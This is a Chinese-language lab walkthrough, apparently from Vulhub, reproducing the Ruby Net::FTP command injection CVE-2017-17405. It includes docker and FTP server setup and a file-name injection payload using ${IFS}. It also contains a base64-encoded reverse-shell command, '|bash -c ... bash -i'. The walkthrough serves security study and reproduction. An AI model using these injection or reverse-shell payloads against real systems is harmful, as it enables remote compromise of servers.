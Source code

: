 # Ruby Net::FTP 模块命令注入漏洞（CVE-2017-17405）

Ruby Net::FTP 模块是一个FTP客户端，在上传和下载文件的过程中，打开本地文件时使用了`open`函数。而在ruby中，`open`函数是借用系统命令来打开文件，且没用过滤shell字符，导致在用户控制文件名的情况下，将可以注入任意命令。

## 环境搭建

编译及运行漏洞环境：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/`将可以看到一个HTTP服务。这个HTTP服务的作用是，我们访问`http://your-ip:8080/download?uri=ftp://example.com:2121/&file=vulhub.txt`，它会从example.com:2121这个ftp服务端下载文件vulhub.txt到本地，并将内容返回给用户。

## 漏洞复现

因为这是一个FTP客户端的漏洞，所以我们需要先运行一个可以被访问到的服务端。比如使用python：

```
# 安装pyftpdlib
pip install pyftpdlib

# 在当前目录下启动一个ftp服务器，默认监听在`0.0.0.0:2121`端口
python3 -m pyftpdlib -p 2121 -i 0.0.0.0
```

然后即可开始利用漏洞。注入命令`|touch${IFS}success.txt`（空格用`${IFS}`代替，原因不表），发送如下数据包即可（其中uri指定的ftp服务器就是我用python运行的一个简单的ftp server，其中无需放置任何文件）：

![](1.png)

然后进入docker容器内，可见success.txt已被创建：

![](2.png)

执行反弹shell的命令`|bash${IFS}-c${IFS}'{echo,YmFzaCAtaSA...}|{base64,-d}|{bash,-i}'`，成功反弹：

![](3.png)
